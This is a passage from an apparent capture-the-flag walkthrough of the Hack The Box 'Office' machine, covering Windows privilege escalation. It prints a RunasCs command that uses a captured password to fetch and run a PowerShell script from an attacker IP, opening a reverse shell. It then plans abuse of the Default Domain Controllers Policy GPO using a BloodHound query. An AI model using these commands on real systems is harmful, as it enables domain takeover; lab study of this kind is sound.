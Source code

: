 ![Workign credentials](/assets/img/Office/Office_34.png)


## Privilege escalation

So now we have access to hhogan's credentials we should open up a reverse shell as this user. We will do this by using the same runasCS command as earlier. A moment later we will be greeted with the reverse shell.

```
.\RunasCs.exe hhogan H4ppyFtW183# "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.67/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.67 -Port 445" 
```
![Shell as hhogan](/assets/img/Office/Office_35.png)

So earlier in bloodhound we saw that this user is able to abuse GPO objects. Now first we need to find a GPO that we can exploit properly that has permission to launch commands on the domain controller. We can list all gpo's present within the domain by using the following cypher query in bloodhound. From this list the only gpo that is able to send commands to the domain controller is **DEFAULT DOMAIN CONTROLLERS POLICY@OFFICE.HTB** This makes it an excellent target.

```bash
Match (n:GPO) return n
```

![Domain controller policy](/assets/img/Office/Office_36.png)

